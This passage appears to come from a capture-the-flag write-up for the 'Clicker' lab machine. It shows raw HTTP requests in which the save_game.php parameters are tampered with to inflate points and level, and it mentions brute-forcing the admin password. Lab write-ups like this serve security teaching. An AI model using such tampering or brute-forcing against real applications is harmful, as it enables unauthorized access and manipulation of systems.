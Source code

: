 It told me that admin already existed in the application. I knew I could try to brute force their password if I did not find anything else. I created a user and logged in.

I tried playing the game.

![The Game](/assets/images/2024/01/Clicker/TheGame.png "The Game")

The game consisted of clicking until you got enough point to level up. Very exciting!

When I clicked on the save button, I saw that my points and level were passed in the URL.

```http
GET /save_game.php?clicks=26&level=1 HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=qreneo6dl74qicu33bq4jv1o5l
Upgrade-Insecure-Requests: 1
```

I could easily cheat by sending bigger values.

```http
GET /save_game.php?clicks=1000000&level=1000000 HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=qreneo6dl74qicu33bq4jv1o5l
Upgrade-Insecure-Requests: 1
```
